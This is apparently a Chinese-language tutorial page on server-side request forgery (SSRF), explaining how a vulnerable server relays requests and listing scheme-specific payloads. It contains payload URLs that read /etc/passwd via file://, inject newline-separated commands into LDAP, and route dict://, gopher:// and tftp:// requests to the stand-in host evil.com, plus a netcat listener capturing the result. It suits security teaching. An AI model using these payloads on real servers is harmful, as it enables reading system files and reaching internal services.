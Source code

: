 ### 简介

SSRF(Server Side Request Forgery)

任何能够直接或间接地使server发起网络请求的功能，如果该功能的参数是用户可控的，且对用户输入没有做严格的输入验证，就很有可能存在SSRF.

### 原理

"隔山打牛"

```
Attacker --【1】req1-payload-->  Server1(存在SSRF漏洞) ---【2】req2--> Server2
     /\                           |        /\                         \/ 
     |                           \/         |                         | 
     '-----<----【4】resp----<----'         '---<----【3】resp----<----' 
```

```
流量走向                      流程说明
attacker -> SSRFserver      【1】攻击者发送Requset1到存在SSRF漏洞的Server.  req1:https://x.com/?url=http://<internal_hostname>:<port>/
SSRFserver -> internalServer【2】SSRFserver为"跳板" 发出Requset2.          req2:http://<internal_hostname>:<port>/
internalServer -> SSRFserver【3】SSRFserver得到req2的真实响应内容.
SSRFserver -> attacker      【4】程序逻辑如果将req2的真实响应内容返回给攻击者则为Basic SSRF，否则为Blind SSRF.
```


* 第一个请求 通常是HTTP协议
* 第二个请求 由应用程序本身功能决定 理论上可以有各种protocol/scheme
  * `file://` `http://example.com/ssrf.php?url=file:///etc/passwd`
  * SSH `scp://` `sftp://`
  * `dict://` `http://example.com/ssrf.php?dict://evil.com:1337/`
  * `ldap://` LDAP(Lightweight Directory Access Protocol,轻量级目录访问协议)
    * `http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquit`
    * `http://example.com/ssrf.php?url=ldaps://localhost:1337/%0astats%0aquit`
    * `http://example.com/ssrf.php?url=ldapi://localhost:1337/%0astats%0aquit`
  * `gopher://`
    * 重要作用:几乎可与任意**TCP** service交互
      * (1)指定`ip` `port` `bytes`
      * (2)you can exploit a SSRF to communicate with any TCP service.(but you need to know how to talk to the service first.)
    * 利用过程 `http://example.com/ssrf.php?url=http://evil.com/gopher.php` 重定向到 `gopher://yourlink.tld`. [详细过程](#ssrf利用过程---gopher协议结合跳转)
  * `tftp://` TFTP（Trivial File Transfer Protocol,简单文件传输协议) works over UDP
    * 重要作用:几乎可构造并发送任意的**UDP** packets
    * 利用过程

```
Request:
https://imgur.com/vidgif/url?url=tftp://evil.com:12346/TESTUDPPACKET

evil.com:# nc -v -u -l 12346
Listening on [0.0.0.0] (family 0, port 12346)
TESTUDPPACKEToctettsize0blksize512timeout6
```
